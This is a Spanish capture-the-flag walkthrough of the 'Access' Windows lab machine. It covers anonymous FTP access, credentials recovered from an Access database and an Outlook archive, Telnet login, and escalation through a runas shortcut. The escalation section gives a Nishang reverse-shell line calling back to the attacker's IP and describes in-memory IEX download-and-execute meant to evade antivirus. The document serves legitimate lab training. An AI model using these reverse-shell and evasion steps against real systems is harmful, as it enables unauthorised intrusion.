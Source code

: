 ![](../img/Access/0.png)
#Windows #AD #nishang #Runas
____

El acceso es un &amp;quot;fácil&amp;quot; dificultad de la máquina, que pone de relieve cómo las máquinas asociadas con la seguridad física de un entorno puede no ser en sí mismo seguro. También se destaca cómo FTP / archivos compartidos accesibles a menudo puede conducir a conseguir un punto de apoyo o movimiento lateral. Enseña técnicas para identificar y explotar las credenciales guardadas.
____

Iniciando la fase de reconocimiento, se realizó un escaneo con **RustScan** para identificar los puertos abiertos en el equipo, obteniendo los siguientes resultados:

![](../img/Access/1.png)
<span class="center-text">Escaneo con RUSTSCAN</span>

Una vez obtenidos los resultados, se identificó que los puertos **21 (FTP), 23 (Telnet) y 80 (HTTP)** están abiertos. A partir de esta información, se procede con la enumeración del **puerto 21 (FTP)** para analizar posibles accesos, credenciales y configuraciones del servicio.

![](../img/Access/2.png)
<span class="center-text">Acceso a ftp anonimamente</span>

Se observa que el servidor FTP permite acceso anónimo, lo que nos brinda la posibilidad de listar su contenido. Al acceder, identificamos la presencia de **dos directorios**, por lo que procedemos a enumerar su contenido. Como resultado, se obtienen los siguientes archivos:

![](../img/Access/3.png)
<span class="center-text">Archivos encontrados</span>

Se identificaron **dos archivos** en el servidor FTP. Basándonos en sus extensiones:

- **`backup.mdb`**: La extensión **`.mdb`** indica que podría tratarse de una base de datos de **Microsoft Access**. Este tipo de archivos suele utilizarse para almacenar información estructurada y puede contener credenciales, registros o datos sensibles.
- **`archivo.zip`**: Un archivo comprimido que podría contener información relevante, por lo que es necesario analizar su contenido.

Procedemos a descargar ambos archivos para su análisis. Sin embargo, al intentar descargar **`backup.mdb`**, se presenta un **conflicto**. Esto puede deberse a **permisos restringidos**, **corrupción del archivo** o **configuración del servidor FTP** que impide su descarga directa.

![](../img/Access/4.png)
<span class="center-text">Error de descarga</span>

Investigando un poco más sobre el funcionamiento de **FTP**, notamos que para descargar archivos que no son de texto (como bases de datos, imágenes o archivos comprimidos), es necesario activar el **modo binario**.

Al cambiar al **modo binario** antes de la descarga, logramos obtener el archivo **backup.mdb** exitosamente. Esto garantiza que el archivo se transfiera sin corrupción y pueda ser analizado correctamente.

Ahora, procederemos a examinar el contenido de ambos archivos en busca de información relevante.

![](../img/Access/5.png)
<span class="center-text">Cambiando a binary y obtencion de archivo</span>

Al contar con ambos archivos, decidimos analizar primero el contenido del **archivo ZIP**, pero notamos que **está protegido con contraseña**, lo que impide su extracción inmediata. Dado que aún no contamos con la clave, dejamos esta parte pendiente para un posible ataque de fuerza bruta o revisión de pistas en otros archivos.

Pasamos entonces a investigar cómo abrir el archivo **`.mdb`** y encontramos un **visualizador en línea**, [mdoopener](https://www.mdbopener.com/) que nos permitirá explorar su contenido sin necesidad de herramientas locales. Procedemos a cargar el archivo en la herramienta para analizar si contiene información relevante, como credenciales, registros de acceso o configuraciones útiles.

![](../img/Access/6.png)
<span class="center-text">Intento de descompresión de archivo zip</span>

![](../img/Access/7.png)
<span class="center-text">Visualizador en linea de archivos mdb</span>

Al abrir y analizar el contenido del archivo **`.mdb`**, encontramos una tabla llamada **`auth_user`**, que almacena **usuarios y contraseñas**.

Inicialmente, intentamos utilizar estas credenciales para acceder a **Telnet**, pero **no tuvimos éxito**. Sin embargo, decidimos probar la contraseña extraída con el archivo **ZIP protegido**, y logramos **descomprimirlo exitosamente**.

Ahora procederemos a analizar el contenido del archivo extraído en busca de información relevante que pueda ayudarnos a obtener acceso al sistema o descubrir más pistas sobre su seguridad.

![](../img/Access/8.png)
<span class="center-text">Credenciales contradas</span>

![](../img/Access/9.png)
<span class="center-text">Extracción de datos</span>

Al analizar el archivo extraído, observamos que tiene la extensión **`.pst`**, lo que indica que se trata de un **archivo de almacenamiento de correos electrónicos de Microsoft Outlook**. Estos archivos suelen contener correos, contactos y otros datos de la cuenta de un usuario.

Dado que queremos examinar su contenido de manera más accesible, investigamos si existe un método para **convertir un archivo `.pst` a `.pdf`**

![](../img/Access/10.png)
<span class="center-text">Conversion de pst a pdf</span>

Después de convertir el archivo **`.pst`** a **PDF**, lo analizamos y encontramos **un usuario y una contraseña** dentro de los correos almacenados.

Con esta nueva información, intentamos nuevamente autenticarnos en **Telnet**, y esta vez logramos acceder exitosamente al sistema. Como resultado de esta intrusión, **encontramos la primera flag**.

![](../img/Access/11.png)
<span class="center-text">Credenciales encontradas</span>

![](../img/Access/12.png)
<span class="center-text">Acceso al sistema</span>

![](../img/Access/13.png)
<span class="center-text">Flag user</span>

# Privilege Escaltaion

Durante nuestra enumeración del sistema, identificamos un **archivo interesante** en el directorio **`Public/Desktop`**. Al analizarlo, notamos que se trata de un **acceso directo (`.lnk`)** que ejecuta comandos mediante `runas`, lo que indica que podría utilizarse para ejecutar procesos con **privilegios de administrador**.

![](../img/Access/14.png)
<span class="center-text">Identificación de un acceso directo que corre como administrador</span>

Dado que `runas` permite ejecutar programas con otro usuario, exploramos formas de **escalar privilegios** mediante este mecanismo. Se nos ocurre utilizar **Nishang**, un conjunto de scripts en PowerShell para post-explotación, y aprovecharlo para **cargar una reverse shell en memoria**, evitando tocar el disco y evadiendo detecciones básicas.

Clonar repositorio de nishang

```bash
git clone https://github.com/samratashok/nishang.git
```

Después de clonar el repositorio de **Nishang**, tomamos el archivo **`Invoke-PowerShellTcp.ps1`** y lo modificamos agregando la siguiente línea al final:

```powershell
Invoke-PowerShellTcp -Reverse -IPAddress <tu_ip> -Port 4444
```

Una vez realizado el proceso anterior, utilizamos **IEX (Invoke-Expression)** para descargar y ejecutar el payload en memoria, evitando escribirlo en disco y reduciendo la posibilidad de detección por antivirus o herramientas de monitoreo.

Siguiendo estos pasos, procedemos a descargarlo y obtendremos la revshell

![](../img/Access/15.png)
<span class="center-text">Ejecución como administrador de nuestra revshell</span>

![](../img/Access/16.png)<span class="center-text">Acceso como root</span>

Después de ejecutar el exploit con **IEX** y obtener la reverse shell con **privilegios de administrador**, ahora podemos **buscar y capturar la flag de root**.

![](../img/Access/17.png)
<span class="center-text">Flag root</span>

